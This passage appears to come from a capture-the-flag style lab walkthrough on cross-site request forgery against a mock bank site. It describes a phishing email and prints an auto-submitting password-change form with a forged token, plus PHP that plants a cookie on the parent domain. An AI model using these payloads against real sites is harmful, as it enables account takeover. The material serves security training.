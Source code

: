 - For the attack to work, the attacker would use the social engineering technique to make the victim click on a link.
- The attacker will prepare an enticing email to compel the user to change his password. He prepared an email citing a suspicious login attempt to Josh email and sent it to Josh.
- The email contained a link to an **attacker-controlled domain** (`attacker.mybank.thm`) with a password update form similar to a bank one. The form also has a CSRF token already set as a hidden parameter.

```html
<form method="post" action="http://mybank.thm:8080//changepassword.php" id="autos">
        <label for="password">Password:</label>
        <input type="password" id="password" name="current_password" value="<?php echo "GB82MYBANK5697" ?>" required>

        <label for="confirm_password">ConfirmPassword:</label>
        <input type="password" id="confirm_password" name="confirm_password" value="Attacker Unique Password" required>
		<input type="hidden" id="csrf_token" name="csrf_token" value="Decrypted Token Value">
		

        <button type="submit" name="password_submit"  id="password_submit" >Update Password</button>
    </form>
	
	</div>
<script>
document.getElementById('password_submit').click(); 
</script>
```

- In the above code, the attacker will update the payload and add the `base64 value` of Josh's bank account as a new CSRF token value. 
- Navigate to Josh's mailbox at the `mailbox.thm:8081` to see the new mail with the crafted CSRF payload. `vulnerable Mark K. Urgent: Action Required - Suspicious Login Attempt Detected`
- Once you click the link, it will redirect you to the attacker-controlled subdomain page and auto-submit the form to change the password. The attacker contains a code similar to that of the change password page of `mybank.thm`; however, he is also setting a cookie with the following code so that it will be forwarded to the main domain `mybank.thm` while triggering a CSRF attack.

```php
<?php
...
setcookie(
    'csrf-token',               
    base64_encode("GB82MYBANK5699"),            
    [
        'expires' => time() + (365 * 24 * 60 * 60), 
        'path' => '/',                         
        'domain' => 'mybank.thm',                          
        'secure' => false,                      
        'httponly' => false,                 
        'samesite' => 'Lax' 
    ]
);
?>
```
